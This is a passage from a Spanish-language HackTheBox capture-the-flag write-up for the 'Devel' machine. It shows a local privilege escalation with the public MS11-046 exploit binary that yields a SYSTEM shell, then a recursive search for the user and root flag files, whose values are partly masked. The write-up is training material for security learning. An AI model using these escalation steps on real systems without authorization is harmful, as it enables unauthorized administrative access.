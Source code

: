 Ejecutamos el binario y ya tenemos shell con privilegios de root

```java
c:\Windows\Temp>ms11-046.exe
ms11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `type` nos muestra el contenido.

```bash
#USER
cd c:\
c:\>dir /r /s user.txt
dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\babis\Desktop

cd c:\Users\babis\Desktop
type user.txt
0acf3098baca47798***************
```

```bash
#ROOT
c:\>dir /r /s root.txt        
dir /r /s root.txt
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\Administrator\Desktop

cd c:\Users\Administrator\Desktop
type root.txt
cb5e74abceabab8df***************
```

Hemos completado la máquina **Devel** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Devel/pwned.png">
